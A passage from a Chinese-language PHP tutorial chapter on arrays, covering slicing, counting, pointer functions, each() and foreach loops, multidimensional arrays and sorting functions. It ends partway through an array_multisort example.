如果您希望将 `print_r()` 的输出存储在字符串中，而不是在浏览器中显示，请向该函数传递第二个 `true` 参数：

```
$arrayStructure = print_r( $array, true );
echo $arrayStructure; // Displays the contents of $array
```

## 使用 array_slice() 提取一组元素

有时您希望一次访问多个数组元素。例如，如果您有一个包含客户 100 个待处理订单的数组，您可能希望提取前十个订单以便进行处理。

PHP 提供了一个内置函数 `array_slice()`，您可以使用它从数组中提取一组元素。要使用它，请传递要提取切片的数组，然后是范围中第一个元素的位置（从零开始计数），然后是要提取的元素数量。该函数将返回一个新数组，其中包含您提取的元素的副本（它不会修改原始数组）。例如：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$authorsSlice = array_slice( $authors, 1, 2 );

// Displays "Array ( [0] => Kafka [1] => Tolkien )"
print_r( $authorsSlice );
```

此示例从 `$authors` 数组中提取第二个和第三个元素，并将生成的数组存储在新变量 `$authorsSlice` 中。然后代码使用 `print_r()` 显示切片。

请注意，`array_slice()` 不会保留原始元素的键，而是会在新数组中从零开始重新索引元素。因此，虽然“Kafka”在 `$authors` 数组中的索引为 1，但在 `$authorsSlice` 数组中其索引为 0。

如果您在想，是的，您可以将 `array_slice()` 与关联数组一起使用。虽然关联数组没有数字索引，但 PHP 确实会记住关联数组中元素的顺序。因此，您仍然可以指示 `array_slice()` 提取关联数组的第二个和第三个元素，例如：

```
$myBook = array( "title" => "The Grapes of Wrath",
		"author" => "John Steinbeck",
		"pubYear" => 1939 );
$myBookSlice = array_slice( $myBook, 1, 2 );
// Displays "Array ( [author] => John Steinbeck [pubYear] => 1939 )";
print_r( $myBookSlice );
```

请注意，`array_slice()` 确实会保留来自关联数组的元素的键。

顺便说一句，如果您省略 `array_slice()` 的第三个参数，该函数将提取从起始位置到数组末尾的所有元素：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$authorsSlice = array_slice( $authors, 1 );
// Displays "Array ( [0] => Kafka [1] => Tolkien [2] => Dickens )";
print_r( $authorsSlice );
```

此前您了解到，`array_slice()` 不会保留从索引数组中提取的元素的索引。如果您想保留索引，可以将第四个参数 `true` 传递给 `array_slice()`：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
// Displays "Array ( [0] => Tolkien [1] => Dickens )";
print_r( array_slice( $authors, 2, 2 ) );
// Displays "Array ( [2] => Tolkien [3] => Dickens )";
print_r( array_slice( $authors, 2, 2, true ) );
```

## 计算数组中的元素数量

如何找出数组中有多少个元素？很简单：使用 PHP 方便的 count() 函数。您只需将数组传递给 count()，它将以整数形式返回元素数量：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$myBook = array( "title" => "The Grapes of Wrath",
		"author" => "John Steinbeck",
		"pubYear" => 1939 );
echo count( $authors ) . "<br/>"; // Displays "4"
echo count( $myBook ) . "<br/>"; // Displays "3"
```

您可能希望使用 count() 来获取索引数组的最后一个元素：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$lastIndex = count( $authors ) - 1;
echo $authors[$lastIndex]; // Displays "Dickens"
```


这段代码可以正常工作，但需小心。仅因为一个索引数组有，比如说，四个元素，并不一定意味着最后一个元素的索引是 3！请考虑下面这个（略显牵强）的示例：

```
// Create a sparse indexed array
$authors = array( 0 => "Steinbeck", 1 => "Kafka", 2=> "Tolkien", 47 =>
"Dickens" );
$lastIndex = count( $authors ) - 1;
echo $authors[$lastIndex]; // Generates an "Undefined offset" notice
```

虽然这个数组具有数字键，从某种意义上来说它是索引数组，但这些键不是连续的。你也可以把这个数组看作是带有数字键的关联数组！如章节开头所述，PHP 在内部不区分索引数组和关联数组，因此可以创建具有非连续数字索引的索引数组。虽然 `$authors` 数组的最高索引是 47，但该数组包含四个元素，而不是 48 个。（这类数组通常被称为稀疏数组。）

因此，当脚本尝试使用 `$lastIndex`（其值设置为 3，即 `count()` 返回值减 1）来访问最后一个元素（"Dickens"）时，PHP 会生成一条 "Undefined offset" 通知，而 `echo` 语句会打印一个空字符串。

总而言之，只要你知道索引数组包含连续编号的索引，就可以假设，例如，数组中的第 30 个元素的索引始终是 29。如果你不确定，可以使用下一节——"遍历数组"——中描述的函数来获取你想要的元素。

## 遍历数组

你已经学会，可以使用数组的键来访问数组中的任何元素——无论是数字键（索引数组的情况）还是字符串键（关联数组的情况）。但是，如果你事先不知道数组中的所有键，该怎么办呢？

如前一节所示，可以创建索引数组，其中的索引不是从零开始连续编号的，而是任意数字。此外，关联数组的键也不必遵循任何模式——一个元素的键可能是 "elephant"，而下一个元素的键可能是 "teacup"——因此，除非你事先知道数组的键，否则将很难访问其元素！

幸运的是，PHP 提供了一组数组访问函数，你可以使用这些函数遍历数组中的每个元素，而不管元素是如何索引的。创建数组时，PHP 会记住元素创建的顺序，并维护一个指向数组中元素的内部指针。此指针最初指向创建的第一个元素，但你可以随意将指针在数组中向前或向后移动。

要操作指针并访问其指向的元素，请使用以下函数：

| 函数 | 描述 |
| --- | --- |
| current() | 返回指针当前指向的元素的值，而不更改指针位置。 |
| key() | 返回指针当前指向的元素的索引，而不更改指针位置。 |
| next() | 将指针向前移动到下一个元素，并返回该元素的值。 |
| prev() | 将指针向后移动到前一个元素，并返回该元素的值。 |
| end() | 将指针移动到数组中的最后一个元素，并返回该元素的值。 |
| reset() | 将指针移动到数组中的第一个元素，并返回该元素的值。 |

这些函数都只接受一个参数——数组——并返回所需元素的值或索引；如果找不到元素，则返回 false（例如，当指针位于数组末尾时使用 `next()`，或在空数组上使用 `current()`）。

下面是一个同时使用这些函数的示例脚本。你可以在图 6-2 中看到结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Stepping Through an Array</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Stepping Through an Array</h1>

<?php

$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );

echo "<p>The array: " . print_r( $authors, true ) . "</p>";

echo "<p>The current element is: " . current( $authors ) . ".</p>";
echo "<p>The next element is: " . next( $authors ) . ".</p>";
echo "<p>...and its index is: " . key( $authors ) . ".</p>";
echo "<p>The next element is: " . next( $authors ) . ".</p>";
echo "<p>The previous element is: " . prev( $authors ) . ".</p>";
echo "<p>The first element is: " . reset( $authors ) . ".</p>";
echo "<p>The last element is: " . end( $authors ) . ".</p>";
echo "<p>The previous element is: " . prev( $authors ) . ".</p>";
?>

</body>
</html>
```



图 6-2

请注意，使用这些函数会在数组中向前和向后移动数组指针（值得注意的是 `current()` 和 `key()` 除外，它们只是返回当前值或键，而不移动指针）。

回到前一节中关于 `count()` 函数的稀疏数组示例，你现在知道如何检索数组的最后一个元素，而不需要知道它是如何索引的：

```
// Create a sparse indexed array
$authors = array( 0 => "Steinbeck", 1 => "Kafka", 2=> "Tolkien", 47 =>
"Dickens" );
echo end( $authors ); // Displays "Dickens"
```

这些函数非常有用，但它们有一个小问题。如果无法检索元素，每个函数都会返回 false。这固然很好，但如果数组中有一个或多个元素实际上包含值 false，该怎么办？在这种情况下，当函数返回 false 时，你无法确定返回的是元素的值，还是检索元素时出了问题。

要解决这个问题，可以使用另一个 PHP 函数：`each()`。它返回数组的当前元素，然后将指针推进到下一个元素。但是，与前五个函数不同，`each()` 返回一个四元素数组，而不是一个值。该数组既包含当前元素的键，也包含其值。如果无法检索元素——因为指针已到达数组末尾，或因为数组为空——`each()` 返回 false。这样就很容易判断 `each()` 是否检索到了值为 false 的元素——在这种情况下，它返回四元素数组——或者是否根本无法检索元素，在这种情况下，它返回 false。

`each()` 返回的四元素数组本身就是 PHP 对数组灵活性的一个光辉示例，因为它包含既具有数字索引又具有字符串索引的元素，如下所示：

| 元素索引 | 元素值 |
| --- | --- |
| 0 | 当前元素的键 |
| "key" | 当前元素的键 |
| 1 | 当前元素的值 |
| "value" | 当前元素的值 |

换句话说，你可以使用 0 或 "key" 作为索引来访问当前元素的键，或者使用 1 或 "value" 作为索引来访问其值。例如：

```
$myBook = array( "title" => "The Grapes of Wrath",
	"author" => "John Steinbeck",
	"pubYear" => 1939 );

$element = each( $myBook );
echo "Key: " . $element[0] . "<br />";
echo "Value: " . $element[1] . "<br />";
echo "Key: " . $element['key'] . "<br />";
echo "Value: " . $element["value"] . "<br />";
```

这段代码显示：

键: title
值: The Grapes of Wrath
键: title
值: The Grapes of Wrath

下面是如何使用 each() 检索值为 false 的数组元素：

```
$myArray = array( false );
$element = each( $myArray );
$key = $element["key"]; // $key now equals 0
$val = $element["value"]; // $val now equals false
```

因为 each() 既返回当前数组元素，又推进数组指针，所以在 while 循环中使用它来遍历数组中的所有元素非常容易。下面的示例遍历 $myBook 数组，并在遍历过程中返回每个元素的键和值。图 6-3 显示了结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
	<head>
		<title>Using each() with a while loop</title>
		<link rel="stylesheet" type="text/css" href="common.css" />
	</head>


<body>
<h1>Using each() with a while loop</h1>
<dl>
<?php
$myBook = array( "title" => "The Grapes of Wrath",
"author" => "John Steinbeck",
"pubYear" => 1939 );
while ( $element = each( $myBook ) ) {
echo "<dt>$element[0]</dt>";
echo "<dd>$element[1]</dd>";
}
?>
</dl>
</body>
</html>
```



图 6-3

只要 each() 继续返回一个四元素数组（其值为 true），while 循环就会继续。当到达数组末尾时，each() 返回 false，循环结束。

## 使用 foreach 遍历数组

就像您刚才看到的，将 each() 与 while 结合使用来遍历数组中的所有元素非常简单。事实上，还有更简单的方法：您可以使用 PHP 的 foreach 语句。

foreach 是一种特殊的循环语句，仅适用于数组（和对象）。您可以用它两种方式：要么仅获取每个元素的值，要么获取元素的键和值。

### 使用 foreach 遍历值

使用 foreach 最简单的方式是获取每个元素的值，如下所示：

```
foreach ( $array as $value ) {
    // (do something with $value here)
}

// (rest of script here)
```

如您所料，foreach 循环会一直迭代，直到获取数组中的所有值（从第一个元素到最后一个元素）。在每次循环中，$value 变量会被设置为当前元素的值。然后，您可以在循环的代码块中对该值做任何需要的操作。接着，循环重复，获取数组中的下一个值，以此类推。

这是一个示例：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );

foreach ( $authors as $val ) {
    echo $val . "<br/>";
}
```

此代码显示：

```
Steinbeck
Kafka
Tolkien
Dickens
```

请注意，您可以使用任何喜欢的变量名来存储值。本质上，foreach 语句中 as 之后的任何变量都会被赋予当前元素的值。

### 使用 foreach 遍历键和值

要使用 foreach 同时获取键和值，请使用以下语法：

```
foreach ( $array as $key => $value ) {
    // (do something with $key and/or $value here
}

// (rest of script here)
```

这与之前的 foreach 结构行为完全相同；唯一的区别是元素的键也会存储在 $key 变量中。（同样，您可以使用任何喜欢的变量名；它们不必是 $key 和 $value。）

现在，您可以将前一部分（“遍历数组”）中使用 `each()` 配合 `while` 循环的示例改写为使用 `foreach` 循环：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Using foreach</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Using foreach</h1>

<dl>

<?php
$myBook = array( "title" => "The Grapes of Wrath",
"author" => "John Steinbeck",
"pubYear" => 1939 );

foreach ( $myBook as $key => $value ) {
echo "<dt>$key</dt>";
echo "<dd>$value</dd>";
}
?>

</dl>
</body>
</html>
```

此代码生成与图 6-3 中所示相同的键和值列表。

## 使用 foreach 修改数组值

使用 `foreach` 时，循环内操作的值是数组本身中值的副本。这意味着，如果您更改 `foreach` 提供的值，不会影响原始数组中对应的值。以下示例代码说明了这一点：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );

// Displays "Steinbeck Kafka Hardy Dickens";
foreach ( $authors as $val ) {
if ( $val == "Tolkien" ) $val = "Hardy";
echo $val . " ";
}

echo "<br>";

// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Tolkien [3] => Dickens )"
print_r ( $authors );
```

请注意，尽管 `$val` 在循环中已从 "Tolkien" 改为 "Hardy"，但原始 `$authors` 数组保持不变，这从最后一行 `print_r()` 的输出中可以看出。

不过，如果您确实想要修改数组本身的值，可以让 `foreach()` 返回数组中值的引用，而不是副本。这意味着循环中的变量指向原始数组元素中的值，因此您只需更改变量的值即可更改元素的值。

要使用对数组元素的引用而非值的副本，只需在 `foreach` 语句中的变量名前添加 &（和符号）即可：

```
foreach ( $array as &$value ) {
```

以下是使用引用重写的前一个示例：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
// Displays "Steinbeck Kafka Hardy Dickens";
foreach ( $authors as &$val ) {
    if ( $val == "Tolkien" ) $val = "Hardy";
    echo $val . " ";
}
```

```
unset( $val );
echo "<br/>";
```

```
// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Hardy [3] => Dickens )"
print_r ( $authors );
```

请注意，这次，`$authors` 数组中第三个元素的值在数组本身中已从 "Tolkien" 改为 "Hardy"。

顺便说一句，`unset( $val )` 行可确保在循环结束后删除 `$val` 变量。这通常是个好主意，因为循环结束时，`$val` 仍持有对最后一个元素（即 "Dickens"）的引用。如果您稍后在代码中更改 `$val`，将无意中修改 `$authors` 数组的最后一个元素。通过 `unset`（删除）`$val`，您可以防止出现此潜在错误。

引用是一种强大的工具，下一章将对其进行更详细的说明。

## 使用多维数组

迄今为止，本章中您使用过的所有数组都包含简单值，例如字符串和整数。但是，数组可以比这强大得多。如前一部分“数组的结构”中所述，PHP 数组可以存储任何类型的值。这包括资源、对象，更重要的是，其他数组。

数组在其元素中存储其他数组的这种能力使您能够创建多维数组（也称为嵌套数组，因为它们由一个或多个嵌套在另一个数组中的数组组成）。包含其他数组的数组是二维数组。如果这些数组也包含数组，那么顶级数组就是三维数组，以此类推。

## 创建多维数组

以下脚本创建一个名为 $myBooks 的简单二维数组，然后使用 print_r() 显示其内容。结果如图 6-4 所示。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>A Two-Dimensional Array</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>A Two-Dimensional Array</h1>

<?php

$myBooks = array(
    array(
        "title" => "The Grapes of Wrath",
        "author" => "John Steinbeck",
        "pubYear" => 1939
    ),
    array(
        "title" => "The Trial",
        "author" => "Franz Kafka",
        "pubYear" => 1925
    ),
    array(
        "title" => "The Hobbit",
        "author" => "J. R. R. Tolkien",
        "pubYear" => 1937
    ),
    array(
        "title" => "A Tale of Two Cities",
        "author" => "Charles Dickens",
        "pubYear" => 1859
    ),
);

echo "<pre>";
print_r ( $myBooks );
echo "</pre>";

?>

</body>
</html>
```



图 6-4

如您所见，此脚本创建了一个名为 $myBooks 的索引数组，包含键为 0、1、2、3 的四个元素。每个元素反过来是一个关联数组，包含键为 "title"、"author" 和 "pubYear" 的三个元素。

虽然这是一个简单的示例，但它能让您对多维数组的能力有所了解。您可以在该数组中潜在地存储成千上万本书，并包含您喜欢的每本书的任意详细信息。

## 访问多维数组的元素

使用您已经学过的方括号语法，您可以访问多维数组中的任何元素。以下是一些示例（这些示例适用于刚才显示的 $myBooks 数组）：

```
// Displays "Array ( [title] => The Trial [author] => Franz Kafka [pubYear] => 1925 ) ";
print_r( $myBooks[1] );
```

```
// Displays "The Trial"
echo "<br/>". $myBooks[1]["title"]. "<br/> ";
```

```
// Displays "1859"
echo $myBooks[3]["pubYear"]. "<br/> ";
```


print_r() 示例显示，$myBooks 的第二个元素实际上是一个包含《审判》信息的关联数组。同时，两个 echo() 示例展示了如何访问嵌套关联数组中的元素。如你所见，你使用两组方括号中的两个键。第一个键是顶级数组中元素的索引，第二个键是嵌套数组中元素的索引。在此示例中，第一个键选择你要访问的关联数组，第二个键选择该关联数组中的一个元素。

## 遍历多维数组

你知道如何使用 foreach 遍历一维数组，但如何遍历多维数组呢？其实，由于多维数组本质上是嵌套在其他数组中的数组，你可以使用嵌套循环来遍历它们！

## 尝试！显示书籍数组

以下示例使用两个嵌套的 foreach 循环来遍历 $myBooks 数组。将其保存为文档根目录下的 multidimensional_array_loop.php，然后浏览脚本的 URL 以查看其运行效果。你应该会看到类似图 6-5 的内容。

```
<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
	<title>Looping Through a Two-Dimensional Array</title>
	<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
	<h1>Looping Through a Two-Dimensional Array</h1>

	<?php

	$myBooks = array(
		array(
			"title" => "The Grapes of Wrath",
			"author" => "John Steinbeck",
			"pubYear" => 1939
		),
		array(
			"title" => "The Trial",
			"author" => "Franz Kafka",
			"pubYear" => 1925
		),
		array(
			"title" => "The Hobbit",
			"author" => "J. R. R. Tolkien",
			"pubYear" => 1937
		),
		array(
			"title" => "A Tale of Two Cities",
			"author" => "Charles Dickens",
    "pubYear" => 1859
    ),
    );
    $bookNum = 0;
    foreach ( $myBooks as $book ) {
        $bookNum++;
        echo "<h2>Book #$bookNum:</h2>";
        echo "<dl>";
        foreach ( $book as $key => $value ) {
            echo "<dt>$key</dt><dd>$value</dd>";
        }
        echo "</dl>";
    }
    ?>
    </body>
    </html>
```



图 6-5

## 工作原理

在显示标准 XHTML 页面标题后，脚本首先定义 `$myBooks` 二维数组。数组的每个元素都是一个包含特定图书信息的关联数组。

接下来，脚本将计数器变量 `$bookNum` 设置为零，并设置外部 `foreach` 循环。该循环遍历顶级 `$myBooks` 数组的每个元素。对于每个元素，它递增 `$bookNum` 并显示当前图书编号，然后启动新的定义列表（`dl`）XHTML 元素。

内部 `foreach` 循环遍历存储在当前元素中的关联数组的元素。对于关联数组的每个元素，它在 XHTML `dt` 元素中显示该元素的键（“title”、“author”或“pubYear”），并在 `dd` 元素中显示该元素的值。内部 `foreach` 循环运行后，`dl` 元素被关闭。

外部循环完成后，脚本结束 XHTML 页面。

## 操作数组

你现在已经学习了 PHP 数组的基本知识：什么是数组、如何创建数组、如何访问其元素、如何遍历数组，以及如何处理多维数组。

不过，PHP 对数组的支持并不仅限于此。就像你在第 5 章中看到的字符串一样，PHP 自带大量数组处理函数，你可以使用这些函数使数组更加有用。在本节中，你将探索一些最常用的函数。

## 对数组排序

大多数语言中数组的一项强大功能是，你可以按任意顺序排序元素。例如，如果你刚刚从文本文件中读取了 100 个图书标题到数组中，你可以在显示它们之前按字母顺序对标题进行排序。或者，你可以创建一个包含客户信息的多维数组，然后按购买数量对数组进行排序，以了解哪些是你最忠诚的客户。

说到对数组排序，PHP 提供了不少于十二个可用于对数组进行排序的函数。更常见的函数有：

- `sort()` 和 `rsort()` — 用于对索引数组进行排序
- `asort()` 和 `arsort()` — 用于对关联数组进行排序
- `ksort()` 和 `krsort()` — 用于按键而不是值对关联数组进行排序
- `array_multisort()` — 一个功能强大的函数，可以一次对多个数组或多维数组进行排序

## 使用 sort() 和 rsort() 对索引数组排序

数组排序函数中最简单的是 `sort()` 和 `rsort()`。`sort()` 将数组的值按升序排序（字母按字母顺序，数字按数值顺序，字母在数字之前），而 `rsort()` 将值按降序排序。要使用其中任何一个函数，只需将其传递给要排序的数组。然后，该函数会对数组进行排序。与本章中介绍的所有排序函数一样，如果成功对数组进行排序，函数返回 true；如果出现问题，则返回 false。

以下示例按字母顺序对作者列表进行升序排序，然后进行降序排序：

```php
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
// Displays "Array ( [0] => Dickens [1] => Kafka [2] => Steinbeck [3] => Tolkien )"
sort( $authors );
print_r( $authors );

// Displays "Array ( [0] => Tolkien [1] => Steinbeck [2] => Kafka [3] => Dickens )"
rsort( $authors );
print_r( $authors );
```

## 使用 asort() 和 arsort() 对关联数组排序

再次查看前面的 sort() 和 rsort() 代码示例。请注意，排序后的数组中的值与原始数组中的值具有不同的键。例如，"Steinbeck" 在原始数组中的索引为 0，在第二个数组中的索引为 2，在第三个数组中的索引为 1。据说 sort() 和 rsort() 函数重新索引了原始数组。

对于索引数组，这通常是你希望发生的情况：你需要元素按正确顺序出现，同时你期望索引数组的索引从零开始。但是，对于关联数组，这可能会造成问题。请考虑以下场景：

```php
$myBook = array( "title" => "Bleak House",
                 "author" => "Dickens",
                 "year" => 1853 );

sort( $myBook );

// Displays "Array ( [0] => Bleak House [1] => Dickens [2] => 1853 )"
print_r( $myBook );
```

请注意，sort() 如何重新索引关联数组，用数字键替换原始字符串键，从而有效地将数组变成索引数组。这使得排序后的数组几乎无用，因为不再有简便的方法来找出哪个元素包含，例如，图书标题。

这就是 asort() 和 arsort() 派上用场的地方。它们的工作方式与 sort() 和 rsort() 相同，但它们保留了每个元素的键与值之间的关联：

```php
$myBook = array( "title" => "Bleak House",
       "author" => "Dickens",
       "year" => 1853 );
```

```
// Displays "Array ( [title] => Bleak House [author] => Dickens [year] =>
1853 )"
asort( $myBook );
print_r( $myBook );
```

```
// Displays "Array ( [year] => 1853 [author] => Dickens [title] => Bleak
House )"
arsort( $myBook );
print_r( $myBook );
```

请注意，虽然可以在索引数组上使用 asort() 和 arsort()，但它们通常用于关联数组。

## 使用 ksort() 和 krsort() 对关联数组键排序

ksort() 和 krsort() 的行为与 asort() 和 arsort() 非常相似，它们分别以升序和降序对数组进行排序，并保留键与值之间的关联。唯一的区别在于，asort() 和 arsort() 按值对元素进行排序，而 ksort() 和 krsort() 按键对元素进行排序：

```php
$myBook = array( "title" => "Bleak House",
       "author" => "Dickens",
       "year" => 1853 );
```

```
// Displays "Array ( [author] => Dickens [title] => Bleak House [year] =>
1853 )"
ksort( $myBook );
print_r( $myBook );
```

```
// Displays "Array ( [year] => 1853 [title] => Bleak House [author] =>
Dickens )"
krsort( $myBook );
print_r( $myBook );
```

在此示例中，ksort() 按键以升序对数组进行排序（“author”、“title”、“year”），而 krsort() 按键以相反顺序对数组进行排序。

与 asort() 和 arsort() 类似，ksort() 和 krsort() 也主要用于关联数组。


## 使用 array_multisort() 进行多重排序

array_multisort() 允许你同时对多个关联数组进行排序，并保留数组之间的关系。要使用它，只需传入要排序的所有数组列表：

```
array_multisort( $array1, $array2, ... );
```

考虑以下示例。该脚本没有将书籍信息存储在多维数组中，而是将其存储在三个关联数组中：一个存储书籍作者，一个存储书名，一个存储出版年份。通过将所有三个数组传递给 array_multisort()，所有数组均根据第一个数组中的值进行排序：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$titles = array( "The Grapes of Wrath", "The Trial", "The Hobbit", "A Tale of Two Cities" );
$pubYears = array( 1939, 1925, 1937, 1859 );
```

```
array_multisort( $authors, $titles, $pubYears );
```

```
// Displays "Array ( [0] => Dickens [1] => Kafka [2] => Steinbeck [3] => Tolkien )"
print_r ( $authors );
echo "<br/> ";
```

```
// Displays "Array ( [0] => A Tale of Two Cities [1] => The Trial [2] => The Grapes of Wrath [3] => The Hobbit )"
print_r ( $titles );
echo "<br/> ";
```

```
// Displays "Array ( [0] => 1859 [1] => 1925 [2] => 1939 [3] => 1937 )"
print_r ( $pubYears );
```

注意，$authors 数组已按字母顺序排序，$titles 和 $pubYears 数组已被重新排列，使其元素与 $authors 数组中对应元素的顺序相同。如果要按书名排序，只需更改传递给 array_multisort() 的参数顺序即可：

```
array_multisort( $titles, $authors, $pubYears );
```

事实上，array_multisort() 比这更智能一些。它实际上先按第一个数组中的值排序，然后按下一个数组中的值排序，依此类推。考虑此示例：

```
$authors = array( "Steinbeck", "Kafka", "Steinbeck", "Tolkien", "Steinbeck", "Dickens" );
$titles = array( "The Grapes of Wrath", "The Trial", "Of Mice and Men", "The Hobbit", "East of Eden", "A Tale of Two Cities" );
$pubYears = array( 1939, 1925, 1937, 1937, 1952, 1859 );
```

```
array_multisort( $authors, $titles, $pubYears );
```

```
// Displays "Array ( [0] => Dickens [1] => Kafka [2] => Steinbeck [3] => Steinbeck [4] => Steinbeck [5] => Tolkien )"
print_r ( $authors );
echo "<br/> ";

// Displays "Array ( [0] => A Tale of Two Cities [1] => The Trial [2] => East of Eden [3] => Of Mice and Men [4] => The Grapes of Wrath [5] => The Hobbit )"
print_r ( $titles );
echo "<br/> ";

// Displays "Array ( [0] => 1859 [1] => 1925 [2] => 1952 [3] => 1937 [4] => 1939 [5] => 1937 )"
print_r ( $pubYears );
```

这些数组包含 Steinbeck 三本书的信息。你可以看到，`array_multisort()` 像之前一样按升序按作者对所有数组进行了排序。但是，它也将这三本 Steinbeck 的书——《伊甸园之东》、《人鼠之间》和《愤怒的葡萄》——按升序排列了。

你也可以使用 `array_multisort()` 来排序多维数组。其工作方式与多个数组类似，只不过你只传入一个数组。该函数先按每个嵌套数组的第一个元素对数组进行排序，然后按第二个元素排序，依此类推。嵌套数组中元素的顺序保持不变。

以下代码演示了 `array_multisort()` 如何排序二维数组。图 6-6 显示了脚本的输出。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Using array_multisort() on a Two-Dimensional Array</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Using array_multisort() on a Two-Dimensional Array</h1>
<?php
$myBooks = array(
array(
"title" => "The Grapes of Wrath",
"author" => "John Steinbeck",
"pubYear" => 1939
),
array(
